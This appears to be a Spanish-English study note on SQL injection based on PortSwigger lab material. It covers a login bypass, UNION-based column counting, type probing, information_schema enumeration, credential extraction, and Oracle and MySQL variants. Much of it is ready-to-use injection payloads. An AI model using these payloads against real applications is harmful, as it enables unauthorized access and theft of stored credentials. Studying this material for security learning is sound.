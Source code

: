 
# SQL Inyeccion

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database

## SQL injection examples

### Retrieving hidden data

Por ejemplo cuando se usa ' or 1=1-- 

> SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

En esta consulta muestras todos los datos ya que comentas lo que sigue despues de --

> The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items.

### Subverting application logic


If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:


> SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

Inyectando comentaria la otra parte

> SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Entonces si logramos comentar el and con '--

### Retrieving data from other database tables ( SQL injection UNION attacks )


When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack

***En resumen tienes que lograr esto***

> SELECT a, b FROM table1 UNION SELECT c, d FROM table2

Desde la peticion incial

> SELECT name, description FROM products WHERE category = 'Gifts'

***Restricciones***
Para que UNION funcione tiene que pasar el mismo numero de columnas en el union y tambien deben de manejar el mismo tipo de datos

#### Paso 1 

Ver cuantas columnas tienen esa tabla  se puede hacer por dos metodos 

Metodo 1

*** CTRL + U to url enconde en Burp Suite***

>' ORDER BY 1--

>' ORDER BY 2--

>' ORDER BY 3--

Hasta n cuando de error entonces ya no es valido osea es ir probando.

Metodo 2 

> 'UNION SELECT NULL,NULL,NULL--

Ir probando de igual que order by para ver cuantas columnas esta trabajando esa query

#### Paso 2 

Verificar el tipo de datos que maneja cada columna debe de ser del mismo tipo para que no falle ( si se usa burp url encodear antes de mandar)

>'UNION SELECT NULL,NULL,NULL--
>' UNION SELECT 'abcdef',NULL,NULL--

(falta investigar los datos de la base como nombre de tabla etc) 
#### Enumerar datos de la base de datos

***La mayoría de los tipos de bases de datos con la notable excepción de Oracle***

La mayoría de los tipos de bases de datos (con la notable excepción de Oracle) tienen un conjunto de vistas llamado "information_schema" que proporciona información sobre la base de datos. Por ejemplo las ***tablas***

```
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'Users'

```
***Ejemplo***

```
'union select TABLE_NAME,null  FROM information_schema.tables--


'union select COLUMN_NAME,null  FROM information_schema.columns WHERE table_name = 'users_feqfcm'--

username_smvbda

password_dabqhh

'union select username_smvbda,password_dabqhh  FROM users_feqfcm--
```

# Metodos para concatenar informacion en una sola columna 

```
union select null,concat(username,':',password) from users-- -
union select null,username||':'||password from users-- -

```



***Para Oracle***





#### Paso 3 

Sacar datos

> ' UNION SELECT username, password FROM users--

### Oracle DB

#### Tabla dual

En el caso de una base de datos ORACLE para la sentencia ***SELECT*** para realizar cualquier query necesitamos decirle a que tabla. Para hacer frente a este problema Oracle creo la tabla dual que es accesible para todos los usuarios.

>In Oracle, the SELECT statement must have a FROM clause. However, some queries don’t require any table for example:
>Fortunately, Oracle provides you with the DUAL table which is a special table that belongs to the schema of the user SYS but it is accessible to all users.
The DUAL table has one column named DUMMY whose data type is VARCHAR2() and contains one row with a value X


```
SELECT * FROM dual;
```

```

'union select 'a',null from dual--

'union select banner,null from v$version--

```

Por o tanto para intentar el ataque de UNION tenemos que llamar a esta tabla o usar el ORDER BY como primer paso pero despues para el segundo paso ***ver que datos tienen esas columnas (STRINGS O NUMEROS) si es que no lo podemos inferir por los datos de la pagina EN la query usamos la tabla dual***. Para sacar la version de oracle lo intuimos al mandar la query y que no nos responda despues mandarla con la tabla dual y que si nos responda.

### MYSQL

Para la base de datos de mysql hay que tener algunas cosideraciones por ejemplo el comentario ya no es -- si no # 
si se puede usar -- pero requiere que se use un espacio al ultimo asi "-- " (sin comillas solo es el ejemplo)

```
'UNION SELECT @@version,NULL#
'union select @@version,null--

```

# Bibliografia o Recursos Consultados

> https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

>https://portswigger.net/web-security/sql-injection/cheat-sheet


